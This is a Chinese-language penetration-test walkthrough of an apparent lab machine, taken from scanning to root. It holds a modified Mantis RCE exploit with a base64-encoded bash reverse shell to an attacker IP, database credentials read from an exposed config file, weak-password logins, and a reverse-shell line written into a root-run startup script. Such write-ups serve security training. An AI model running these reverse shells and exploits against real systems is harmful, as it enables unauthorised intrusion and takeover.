 ## 利用的技术

1. 目录扫描 & 端口扫描

2. exploit 打 mantis

3. 敏感信息获取数据库账号密码

4. 可写目录提权



## 信息收集

全端口扫描，服务发现

```shell
nmap -n -v -p- --max-retries=0 172.16.33.53
nmap -sV -p80,8082,22 172.16.33.53
```

port：80 8082 22



目录扫描

```shell
dirsearch -u 172.16.33.53
dirsearch -u http://172.16.33.53:8082
```

location：

- adminer.php 

<img src="https://cos.kevinc.ltd/file/download?fileId=1278" alt="image-20230529153256749" style="zoom:50%;" />



- cms :  adminer 4.7.1?

/Info.php    phpmyadmin 页面

/system   mantis 页面，针对这个页面继续进行目录扫描

- mantis 页面会进行认证，尝试弱口令admin/admin，成功登录，看返回包字段看到有authorization字段

```shell
dirsearch -u http://172.16.33.53/system
```



注册了一个新用户

![image-20230529153128922](https://cos.kevinc.ltd/file/download?fileId=1276)

没有要求填写密码，直接注册成功



## 利用漏洞拿shell

```shell
searchsploit mantis # RCE
```

改exploit 代码，重点是将authorization字段加进去

```python
class exploit():
	def __init__(self):
		self.s = requests.Session()
    self.headers={"Authorization":"Basic YWRtaW46YWRtaW4="} # Initialize the headers dictionary
		self.RHOST = "172.16.33.53" # Victim IP
		self.RPORT = "80" # Victim port
		self.LHOST = "10.8.0.86" # Attacker IP
		self.LPORT = "8086" # Attacker Port
		self.verify_user_id = "1" # User id for the target account
		self.realname = "administrator" # Username to hijack
		self.passwd = "password" # New password after account hijack
		self.mantisLoc = "/system" # Location of mantis in URL
		self.ReverseShell = "echo " + b64encode("bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash" # Reverse shell payload
```

运行后成功拿到shell，id一下是最低权限

目录扫描 /system 页面

```shell
dirsearch -u http://172.16.33.53/system --header="Authorization:Basic YWRtaW46YWRtaW4="
```

/system/config

/system/api

打开/config 页面有目录遍历，其中 a.txt 文件中有 数据库敏感信息，尝试登录adminer.php 页面，成功登录，且看到数据库中有用户相关的表，打开查看

```shell
# http://172.16.33.53/system/config/a.txt

$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

![image-20230529153200115](https://cos.kevinc.ltd/file/download?fileId=1277)

因为 test 账户创建时没有要求填写密码，而readname为空

猜测realname为密码，尝试登录tre

<img src="https://cos.kevinc.ltd/file/download?fileId=1279" alt="image-20230529153422955" style="zoom:50%;" />

成功登录

传一个linpeas上去看看，跑了一下linpeas ，没用



## 提权

看一下有没有可写权限，且为root运行的文件，看到check-system

![image-20230529152239572](https://cos.kevinc.ltd/file/download?fileId=1274)

写入反弹shell
```shell
bash -i >& /dev/tcp/10.8.0.86/6666 0>&1
```
![image-20230529152205480](https://cos.kevinc.ltd/file/download?fileId=1273)

查询check-system ， 该文件为开机时运行，重启一下主机

```
sudo shutdown -r
```

提权成功

![image-20230529152805744](https://cos.kevinc.ltd/file/download?fileId=1275)